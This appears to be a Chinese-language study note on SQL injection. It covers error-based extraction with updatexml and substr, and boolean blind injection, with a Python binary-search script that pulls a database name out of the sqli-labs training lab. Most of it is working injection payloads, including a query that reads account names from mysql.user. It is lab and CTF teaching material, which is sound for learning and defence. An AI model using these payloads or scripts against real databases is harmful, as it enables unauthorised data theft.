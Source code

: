#### 长度限制
* limit：
```
?id=-1' and updatexml(1,concat(0x7e,(select user from mysql.user limit 1,1)),3) -- a	//limit 0,1为展示第0条数据
```
* substr():
```
?id=-1' and updatexml(1,concat(0x7e,substr((select group_concat(user)
from mysql.user), 1 , 31)),3) -- a
```
### 布尔盲注
* 特征：
1.没有报错信息
2.不管是正确的输入，还是错误的输入,都只显示两种情况(我们可以认为是0或者1)
3.在正确的输入下,输入and 1=1/and 1= 2发现可以判断
4.步骤：
* 用?id=1' and 1=1--+和?id=1' and 1=2--+验证
* 获取长度
* 一个一个猜测flag的内容：
```python
if((ascii(substr((select(flag)from(flag)),1,1))=102),1,0)
```
> if()第一个参数为真，则返回1，假则返回0
> substr(a,1,1)表示从第一个字符开始，截取一个字符

* 其他可用函数：
 left()：
 ```
 left(database(),1)  //前8个字符
 ```
  mid()

* 2分法脚本：

   ascii()参数是布尔值则返回true或false
   
   一下示例为获取数据库名
```python
import requests

url = "http://localhost/sqli-labs-master/Less-8/?id=1'"

def get_dbname():
    db_name = ''
    for i in range(1, 20):
        # 这个遍历是数据库名字的长度如果不够的话就一点一点猜测
        low = 32
        high = 128
        mid = (low + high) // 2
        while (low < high):
            # 32~127是ascii值对应的字符
            payload = "and ascii(substr(database(),%d,1))>%d --+" % (i, mid)
            url1 = url + payload        # 获取url（原url+sql语句构造的url）
            res = requests.get(url1)

            if "You are in..........." in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2

            if (mid == 32 or mid == 127):
                break
        db_name += chr(mid)
        print("数据库名称为:" + db_name)
```
